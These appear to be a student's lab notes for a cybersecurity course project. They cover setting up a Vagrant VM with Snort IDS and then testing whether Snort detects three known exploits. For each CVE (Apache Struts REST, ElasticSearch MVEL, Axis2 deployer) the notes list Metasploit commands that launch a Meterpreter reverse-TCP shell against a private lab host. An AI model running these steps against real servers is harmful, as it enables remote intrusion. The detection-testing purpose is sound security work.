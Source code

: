 cybersecurity base project 2 notes

<REMOTEHOST> = 172.28.128.3
<LOCALHOST> = 172.28.128.4
<SNORTINTERFACE> = 1

 virtualbox-iso: The VM will be run headless, without a GUI. If you want to
 virtualbox-iso: view the screen of the VM, connect via VRDP without a password to
 virtualbox-iso: rdp://127.0.0.1:5985
 virtualbox-iso: Waiting 2m0s for boot...

1. Clone
2. vagrant plugin install vagrant-omnibus
3. VAgrant up

1. Vagrant destroy
2. Vagrant up
3. Install Snort 2.9.9.0 & snortrules-snapshot-2976
4. Install WinPCap 4.1.1
5. Snort conf changes
6. Test with C:\Snort\etc\snort.exe -c C:\Snort\etc\snort.conf -i 1 -T 
7. Ping test works with snort.exe -c C:\Snort\etc\snort.conf -i 1 -A console
8. Turn off firewall

Test ping rule local.rules:  alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"ICMP test"; sid:10000001; rev:001;)

LHOST 172.28.128.4
RHOST 172.28.128.3

Ruleset: snortrules-snapshot-2976

Discovered
1. CVE-2016-3087 - Apache Struts REST Plugin With Dynamic Method Invocation Remote Code Execution
	Prerequisites: Add 8282 to snort.conf HTTP_PORTS
	1. use exploit/multi/http/struts_dmi_rest_exec
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8282
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	6. run
	7. sysinfo

-----------------------------------------------
2. CVE-2014-3120 - ElasticSearch Dynamic Script Arbritrary Java Execution
	Preqrequisites: Uncomment line 812 in server-other.rules ("SERVER-OTHER ElasticSearch script remote code execution attempt")
	1. use exploit/multi/elasticsearch/script_mvel_rce
	2. set RHOST <REMOTEHOST>
	3. set payload java/meterpreter/reverse_tcp
	4. set LHOST <LOCALHOST>
	5. run
	6. sysinfo

3. CVE-2010-0219 - AXIS2 / SAP BusinessObjects Authenticated Code Execution (via SOAP)
	1. use exploit/multi/http/axis2_deployer
	2. set RHOST <REMOTEHOST>
	3. set RPORT 8282
	4. set payload java/meterpreter/reverse_tcp
	5. set LHOST <LOCALHOST>
	5. run
	6. sysinfo

	
